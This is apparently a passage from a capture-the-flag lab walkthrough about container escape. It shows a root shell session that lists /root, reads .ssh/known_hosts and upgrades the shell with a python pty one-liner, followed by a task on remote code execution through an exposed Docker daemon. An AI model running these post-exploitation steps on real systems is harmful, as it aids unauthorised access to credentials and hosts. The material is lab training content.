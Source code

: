 ```bash
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# pwd
/
# groups
root daemon bin sys adm disk uucp groups: cannot find name for group ID 11
11 dialout tape sudo
# cd /root
# ls -lah
total 28K
drwx------  4 root root 4.0K Nov 10  2020 .
drwxr-xr-x 24 root root 4.0K Nov 12  2020 ..
-rw-------  1 root root  406 Nov 13  2020 .bash_history
-rw-r--r--  1 root root 3.1K Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4.0K Oct 24  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4.0K Nov 12  2020 .ssh
# cat authorized_keys
cat: authorized_keys: No such file or directory
# cd .ssh
# cat authorized_keys
# pwd
/root/.ssh
# ls
authorized_keys  known_hosts
# cd authorized_keys
sh: 11: cd: can't cd to authorized_keys
# cat known_hosts
|1|/EHt5UUsnI9hqwcLMFA5TdvNtrs=|qihaDMUpcVI9fwvdha7PesRjel4= ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOZqllWCjU44z6Ho/Klb55xcniFu7VomYL0mtptJjIIJMH+XeCJ7USG+BWA/OM6qfSkOpmHRqQyWmq5tukju+2s=
# 
```

```bash
# python3 -c 'import pty;pty.spawn("/bin/bash")'
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@cb1207065aac:~/.ssh# 
```

<br>
<br>
<h2>Task 8 . Vulnerability #4: RCE via Exposed Docker Daemon</h2>

<br>
<p><em>Answer the question below</em></p>

<p>8.1. I've executed some Docker commands remotely on the vulnerable Instance<br>
<code>No answer needed</code></p>
